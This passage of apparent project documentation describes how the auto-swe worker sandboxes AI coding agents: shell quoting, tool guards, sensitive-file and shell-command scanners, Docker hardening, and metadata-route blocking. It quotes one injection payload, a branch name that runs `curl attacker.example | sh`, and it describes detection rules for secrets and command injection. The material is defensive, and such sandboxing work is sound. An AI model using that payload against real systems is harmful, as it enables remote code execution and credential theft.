- **The image name and memory value** in the `docker run` line, on top of the format validation they already passed ([packages/worker/src/activities/workspace.ts#L572-L574](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L572-L574), [#L645](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L645)), and the sidecar's image and route script ([#L433](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L433)).

A caller that interpolates an unquoted value into one of these command strings does not produce a cosmetic defect. A branch name of the form `x'; curl attacker.example | sh; '` becomes a second command running with the workspace's network access and, on the paths that carry one, its credential. The failure is silent under every other gate: the types are all `string`, the command still runs, and the tests still pass. Two defenses sit behind it rather than in place of it: `safeDepDirName` reduces a dependency name to a single path segment that cannot contain a separator or a leading dash, and `--` terminates option parsing wherever a URL or image could otherwise be read as a flag ([packages/worker/src/activities/workspace.ts#L454-L460](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L454-L460), [#L493-L497](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L493-L497)). The Mastra tools additionally pass an argv array to `docker exec` for `execCapture` and `execStdin`, with the command as one element after `sh -c` ([packages/worker/src/activities/workspace.ts#L767-L807](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L767-L807)).

Sources: [packages/worker/src/activities/workspace.ts:L49-L51](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L49-L51) [packages/worker/src/activities/workspace.ts:L171-L177](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L171-L177) [packages/worker/src/activities/workspace.ts:L454-L517](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L454-L517) [packages/worker/src/activities/shellStep.ts:L97-L290](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L97-L290) [packages/worker/src/agents/workspaceTools.ts:L22-L267](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/workspaceTools.ts#L22-L267)

## Tools That Execute Inside the Container

The four workspace tools are Mastra `createTool()` definitions bound to one `Workspace` handle, each translating to a `docker exec`. `buildWorkspaceTools` constructs all four and is shared by the implementer and by agent runs, so the tool-level scanners are part of each tool body and cannot be skipped by a caller that builds its own tool set; which of the four an agent receives is the caller's decision ([packages/worker/src/agents/workspaceTools.ts#L33-L49](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/workspaceTools.ts#L33-L49), [packages/worker/src/agents/implementer.ts#L93-L97](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/implementer.ts#L93-L97), [packages/worker/src/activities/runAgentTask.ts#L225](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/runAgentTask.ts#L225)).

| Tool | Container command | Guard before execution |
| --- | --- | --- |
| `readFile` | `cat <path>` | `safePath` |
| `writeFile` | `mkdir -p` then `cat > <path>` over stdin | `safePath`, sensitive-file scan, pre-write content check |
| `listDirectory` | `ls -la <path>` | `safePath` |
| `bash` | `execCapture` with a 10-minute cap | shell command scan; `safePath` does not apply |

`safePath` normalizes the relative path and rejects anything absolute, anything starting with `..`, and any path containing a NUL, a quote, or a backslash ([packages/worker/src/agents/workspaceTools.ts#L22-L31](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/workspaceTools.ts#L22-L31)). `bash` logs a token-redacted audit line naming the container and the command before the command runs ([packages/worker/src/agents/workspaceTools.ts#L202-L211](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/workspaceTools.ts#L202-L211)).

Output from `bash`, `readFile`, and `listDirectory` over `workspace.maxToolOutputChars` (20,000 by default, a TEAM- and ORGANIZATION-overridable setting with a LEAD role floor) is written in full to `/workspace/.tool-output/` and replaced with a head-and-tail excerpt plus a pointer ([packages/shared/src/config/registry.ts#L495-L507](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/config/registry.ts#L495-L507)). That directory is a sibling of `/workspace/target-repo`, deliberately outside the git working tree, so an offloaded blob can never be swept into `git add -A` and reach the pull request diff ([packages/worker/src/agents/toolOutputOffload.ts#L6-L13](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/toolOutputOffload.ts#L6-L13)). The excerpt keeps the tail as well as the head because for a test run or a build the decisive line is usually at the end ([packages/worker/src/agents/toolOutputOffload.ts#L109-L149](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/toolOutputOffload.ts#L109-L149)). A failed offload write falls back to plain truncation rather than returning the unbounded blob ([packages/worker/src/agents/toolOutputOffload.ts#L151-L186](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/toolOutputOffload.ts#L151-L186)).

**The Claude Code runtime, container side.** When `workspace.implementerRuntime` resolves to `claude-code`, the workspace is the same container with extra contents: once per workspace the runtime probes the container's architecture and libc (`uname -m` plus a musl-loader check), makes sure `bash` exists (installing it with `apk` on Alpine), and `docker cp`s the matching native `claude` binary into `/workspace/.harness/claude`. That directory is a sibling of the checkout for the same reason `.tool-output` is ([packages/worker/src/agents/claudeCode/runtime.ts#L25-L32](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/runtime.ts#L25-L32), [#L82-L112](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/runtime.ts#L82-L112), [packages/worker/src/agents/claudeCode/binary.ts#L13-L14](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/binary.ts#L13-L14), [#L50-L65](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/binary.ts#L50-L65)). The harness process is started with `docker exec -i -w /workspace/target-repo` carrying the same exec tag, the API key named in `-e` without a value so it travels in the docker client's environment and never on a command line, and a `HOME` under `.harness`; after each turn the tag script kills whatever the harness left behind ([packages/worker/src/agents/claudeCode/runtime.ts#L339-L374](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/runtime.ts#L339-L374), [#L422-L427](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/runtime.ts#L422-L427)). The runtime is selected per call by `selectImplementerRuntime` from a run-pinned setting ([packages/worker/src/agents/implementerRuntimeSelect.ts#L48-L78](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/implementerRuntimeSelect.ts#L48-L78), [packages/shared/src/config/registry.ts#L473-L488](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/config/registry.ts#L473-L488)); the policy that gates its tool calls is described in the next section.

Sources: [packages/worker/src/agents/workspaceTools.ts:L22-L267](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/workspaceTools.ts#L22-L267) [packages/worker/src/agents/toolOutputOffload.ts:L1-L186](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/toolOutputOffload.ts#L1-L186) [packages/shared/src/config/registry.ts:L473-L507](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/config/registry.ts#L473-L507) [packages/worker/src/agents/claudeCode/runtime.ts:L25-L112](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/runtime.ts#L25-L112) [packages/worker/src/agents/claudeCode/runtime.ts:L339-L427](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/runtime.ts#L339-L427)

## Pre-Write and Pre-Execution Scanners

Three scanners sit between the model and the container, all of them synchronous with the tool call.

**Sensitive-file policy on writes.** `checkSensitiveFilePath` runs the normalized path against database-backed `SENSITIVE_FILE` patterns, testing each pattern against both the basename and the full path so a rule works at any directory depth ([packages/worker/src/lib/sensitiveFileScanner.ts#L36-L85](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/sensitiveFileScanner.ts#L36-L85)). It is a hard block, and it fails closed: a policy that cannot be loaded, a pattern that burns its execution budget, and a quarantined pattern all block the write, because a scan that did not complete cannot say the path is clean ([packages/worker/src/lib/sensitiveFileScanner.ts#L115-L138](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/sensitiveFileScanner.ts#L115-L138)). The path is normalized before matching so `./x/../.env` and `.env` are the same file to the policy as they are to the shell ([packages/worker/src/lib/sensitiveFileScanner.ts#L87-L102](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/sensitiveFileScanner.ts#L87-L102)).

**The same policy on shell write targets.** A `bash` call reaches the same filesystem, so without a second enforcement point `echo secret > .env` walks straight past the write tool's guard. `extractShellWriteTargets` pulls destinations out of redirections, `tee`, `dd of=`, and the last operand of `cp`/`mv`/`install`, and `scanShellCommand` runs them all through the sensitive-file policy in one batch, over both the raw and the line-continuation-joined spelling of the command ([packages/worker/src/lib/shellCommandScanner.ts#L63-L88](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/shellCommandScanner.ts#L63-L88), [#L213-L233](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/shellCommandScanner.ts#L213-L233)). `extractShellWrites` additionally recovers inline content from `echo`/`printf` redirects and here-documents and applies the same critical-severity content rules ([packages/worker/src/lib/shellCommandScanner.ts#L90-L141](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/shellCommandScanner.ts#L90-L141), [#L235-L248](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/shellCommandScanner.ts#L235-L248)). Both are heuristics over command text, not a shell parser; the code states plainly that they raise the floor and are not a containment boundary.

**Pre-write content rules.** `checkContentSecurity` runs nine OWASP-aligned rules line by line over the content being written: hardcoded AWS keys, secrets, private keys, JWT secrets, raw SQL interpolation, command injection, dynamic evaluation, weak hashes, wildcard CORS ([packages/worker/src/agents/preWriteSecurityCheck.ts#L39-L130](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/preWriteSecurityCheck.ts#L39-L130)). Only a CRITICAL violation blocks; HIGH and MEDIUM findings let the write through with a warning prepended to the tool result ([packages/worker/src/agents/preWriteSecurityCheck.ts#L139-L232](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/preWriteSecurityCheck.ts#L139-L232)). Test, spec, mock, and fixture paths are skipped entirely ([packages/worker/src/agents/preWriteSecurityCheck.ts#L125-L142](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/preWriteSecurityCheck.ts#L125-L142)).

**Shell command patterns.** `scanShellCommand` runs `SHELL_COMMAND` patterns over the whole command in windows that follow command structure, never a truncated prefix: 20,000 characters of leading comment would otherwise push a forbidden command past a plain cap and out of sight, and fixed-offset windows miss a match padded longer than their overlap ([packages/worker/src/lib/shellCommandScanner.ts#L143-L186](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/shellCommandScanner.ts#L143-L186)). Blocks are returned to the agent as a readable message rather than thrown, so the model can self-correct rather than seeing a generic tool error; a quarantined rule, an overrun and an unloadable policy all block ([packages/worker/src/lib/shellCommandScanner.ts#L165-L211](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/shellCommandScanner.ts#L165-L211)). Pattern execution is bounded by `SCANNER_REGEX_BUDGET_MS`, a deployment-wide environment variable defaulting to 250 milliseconds and resolved once per scan call; the sensitive-file scanner resolves it the same way ([packages/worker/src/lib/shellCommandScanner.ts#L181-L186](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/shellCommandScanner.ts#L181-L186), [packages/worker/src/lib/sensitiveFileScanner.ts#L61-L69](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/sensitiveFileScanner.ts#L61-L69)).

**The harness runtime enforces the same three, from the worker.** Under the Claude Code runtime the tool bodies above are not used, because the harness has its own tools. `decideToolCall` is their twin: it runs in the worker (not in the container, so nothing the agent does in the container can edit it) on every `PreToolUse` and applies the shell scanner to `Bash`, the sensitive-file block and the content check to `Write` and `Edit`, and confines reads and searches to the checkout. A scanner that cannot complete throws, and the caller turns the throw into a deny, so the blocking scanners still fail closed ([packages/worker/src/agents/claudeCode/policy.ts#L66-L149](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/policy.ts#L66-L149)). See [Agent Runs and Implementer Runtimes](./4.6-agent-runs-and-implementer-runtimes.md).

Sources: [packages/worker/src/lib/sensitiveFileScanner.ts:L1-L157](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/sensitiveFileScanner.ts#L1-L157) [packages/worker/src/lib/shellCommandScanner.ts:L1-L251](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/shellCommandScanner.ts#L1-L251) [packages/worker/src/agents/preWriteSecurityCheck.ts:L1-L255](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/preWriteSecurityCheck.ts#L1-L255) [packages/worker/src/agents/claudeCode/policy.ts:L66-L149](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/policy.ts#L66-L149)

## Workspace Hardening

The agent workspace keeps bridge networking and a writable container layer, because the implementer needs outbound git and package installs. Everything else is stripped ([packages/worker/src/activities/workspace.ts#L611-L647](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L611-L647)):

| Measure | Flag | Effect |
| --- | --- | --- |
| Drop all capabilities | `--cap-drop=ALL` | No Linux capability the workspace does not need |
| Block privilege escalation | `--security-opt=no-new-privileges` | setuid binaries cannot raise privileges |
| Pin DNS | `--dns=1.1.1.1 --dns=8.8.8.8` | Long clones survive a flaky embedded forwarder |
| Blackhole metadata hostnames | `--add-host=metadata.google.internal:0.0.0.0` and `metadata.gke.internal` | Hostname route to cloud credentials removed |
| Resource caps | `--memory` / `--cpus` / `--pids-limit` | Bounds a runaway build and blunts fork bombs |
| Init process | `--init` | A reaper owns PID 1 |

The hostname block does not cover the metadata service's link-local IP. Closing that gap needs `NET_ADMIN`, which conflicts with `--cap-drop=ALL`, so a throwaway sidecar joins the workspace's network namespace via `--network container:<name>` with `--cap-add=NET_ADMIN`, installs blackhole routes for `169.254.169.254`, `169.254.170.2`, and `fd00:ec2::254`, then exits. The routes persist in the shared namespace after the sidecar is gone, so the long-lived agent container never holds the capability ([packages/worker/src/activities/workspace.ts#L394-L434](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L394-L434)). The route adds are verified rather than assumed: a final `grep` for a blackhole route makes a runtime whose `ip` applet lacks blackhole support exit non-zero instead of silently no-opping; the IPv6 add stays soft. The sidecar runs the image named by `WORKSPACE_METADATA_BLOCK_IMAGE` (default `alpine:3.20`). The whole step is best-effort and non-fatal: a failure logs a warning naming the container and continues, because the primary exfiltration vector is already mitigated by the credential scrub. It runs unless `WORKSPACE_BLOCK_METADATA` is the literal `false`, an environment-only switch that no run, team or admin session can flip ([packages/worker/src/activities/workspace.ts#L649-L673](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L649-L673), [packages/shared/src/lib/systemConfig.ts#L801-L823](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/lib/systemConfig.ts#L801-L823)). The source notes that the route install has not been exercised end to end without a Docker daemon in CI, so a real-Docker validation remains the check before relying on it.

The ephemeral runner used for author-supplied steps is stricter still. `lockdownFlags` is the single place its isolation is defined, shared by the foreground and sidecar runners so the two cannot drift: `--network=none` unless the author opts into egress, `--read-only` root, `/tmp` on a 64 MB tmpfs, `--pids-limit=256`, `--cap-drop=ALL`, `--security-opt=no-new-privileges`, and one bind-mounted `/workspace` ([packages/worker/src/lib/ephemeralContainer.ts#L115-L183](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts#L115-L183)). Host bind-mount sources are checked against a blocklist of system roots and the Docker daemon's own state before they can be mounted ([packages/worker/src/lib/ephemeralContainer.ts#L76-L113](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts#L76-L113)). Egress, when enabled, is filtered by pointing DNS at an unreachable address and adding `--add-host` entries only for allowlisted names, which does not block direct-by-IP connections ([packages/worker/src/lib/ephemeralContainer.ts#L242-L268](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts#L242-L268)).

Shell steps carry one deliberate consequence of the credential scrub. Because `origin` is cleaned immediately after the clone into the volume, an author-supplied command cannot run its own authenticated fetch or push. The supported way to persist work is to leave changes in the working tree, which a separate finalize container commits and pushes, authenticating for that call alone. That finalize script treats the volume as hostile: it rewrites `.git/config` from the allow-list before the first git command, runs every git command hardened, pins the repository directory, and pushes to the scrubbed URL by name ([packages/worker/src/activities/shellStep.ts#L198-L229](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L198-L229), [#L249-L290](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L249-L290), [#L297-L347](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L297-L347)). The helper container's image is the `workspace.gitHelperImage` setting, resolved before the volume exists ([packages/worker/src/activities/shellStep.ts#L93-L95](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L93-L95), [#L375-L381](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L375-L381)).

Sources: [packages/worker/src/activities/workspace.ts:L381-L434](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L381-L434) [packages/worker/src/activities/workspace.ts:L611-L673](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L611-L673) [packages/shared/src/lib/systemConfig.ts:L733-L821](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/lib/systemConfig.ts#L733-L823) [packages/worker/src/lib/ephemeralContainer.ts:L66-L268](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts#L66-L268) [packages/worker/src/activities/shellStep.ts:L1-L26](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L1-L26)

## Container Steps

`runContainerStep` reuses the same ephemeral lockdown for coded workflow steps, passing resolved node inputs as JSON on the `CONTAINER_STEP_INPUT` environment variable and binding the result at `nodes.<id>.output.result`. Untrusted code never enters the worker process. Three transports return the result: a single JSON object on stdout, a newline-delimited event stream whose last `result` event wins, or a detached HTTP sidecar published on loopback only ([packages/worker/src/activities/containerStep.ts#L10-L36](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/containerStep.ts#L10-L36)). The image is re-validated against the team's allowlist at run time even though the workflow dispatcher already checked it, so a stale spec cannot bypass the policy ([packages/worker/src/activities/containerStep.ts#L65-L73](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/containerStep.ts#L65-L73)). Each step gets a throwaway empty volume for `/workspace`, removed in a `finally` ([packages/worker/src/activities/containerStep.ts#L138-L144](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/containerStep.ts#L138-L144), [#L183-L187](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/containerStep.ts#L183-L189)).

Sources: [packages/worker/src/activities/containerStep.ts:L1-L190](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/containerStep.ts#L1-L190) [packages/worker/src/lib/ephemeralContainer.ts:L205-L240](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts#L205-L240)

## Related Pages

- Parent: [Temporal Worker](./4-temporal-worker.md)
- Sibling: [Temporal Workflows](./4.1-temporal-workflows.md)
- Sibling: [Activities](./4.2-activities.md)
- Sibling: [Agent Layer](./4.3-agent-layer.md)
- Sibling: [Observability and Cost](./4.5-observability-and-cost.md)
- Sibling: [Agent Runs and Implementer Runtimes](./4.6-agent-runs-and-implementer-runtimes.md)
- Credentials: [Repository Access, Sharing, and Per-User Credentials](./3.4-repository-access-and-credentials.md)
